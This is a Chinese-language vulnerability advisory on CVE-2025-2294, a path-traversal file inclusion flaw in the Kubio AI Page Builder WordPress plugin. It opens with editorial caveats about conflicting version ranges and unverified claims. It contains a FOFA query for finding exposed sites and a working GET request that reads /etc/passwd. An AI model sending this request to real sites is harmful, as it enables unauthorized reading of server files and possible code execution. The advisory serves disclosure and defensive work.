

## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：unauth claimed; description&lt;2.5.1 versus range&lt;=2.5.1; hybrid/classic template path reachable

- **适用与权限边界（1）**：正文2.5.1之前与影响栏&lt;=2.5.1边界冲突。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：标题WordPress泛化插件；frontmatter fofa仅body=。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：请求读文本仅证明读取，RCE需已有攻击者PHP文件，正文说明该条件应保留。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：在野已知无证据来源，修复无具体版本/补丁。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress 未授权本地文件包含漏洞（CVE-2025-2294）

# 漏洞描述

适用于 WordPress 的 Kubio AI Page Builder 插件在 2.5.1 之前的所有版本中都容易受到本地文件包含thekubio_hybrid_theme_load_template 的攻击。这使得未经身份验证的攻击者可以在服务器上包含和执行任意文件，从而允许执行这些文件中的任何 PHP 代码。这可用于绕过访问控制、获取敏感数据，或在可以上传和包含图像和其他“安全”文件类型的情况下实现代码执行。

# 影响版本

Kubio AI Page Builder <= 2.5.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/kubio/"

POC/EXP：

```
GET /?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template=../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Connection: close

```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
